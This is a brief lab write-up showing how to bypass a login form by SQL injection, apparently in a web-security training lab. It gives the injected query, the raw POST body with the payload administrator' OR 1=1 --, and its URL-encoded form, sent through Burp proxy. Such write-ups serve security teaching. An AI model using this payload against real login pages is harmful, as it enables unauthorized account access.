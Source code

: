 # Lab: SQL injection vulnerability allowing login bypass

**Craft the SQL query in this format** 

    SELECT * FROM users WHERE username = 'administrator' OR 1=1 --' AND password = 'admin'

Intercept the request using burp proxy, since its a POST request, craft the query in burp and forward the request

**SQLi**

    csrf=odfZD0E7VF4kbPRGFsCHQLMCQyXp25BO&username=administrator' OR 1=1 --&password=admin

**SQLi (After URL Encoding)**

    csrf=odfZD0E7VF4kbPRGFsCHQLMCQyXp25BO&username=administrator%27+OR+1%3D1+--&password=admin


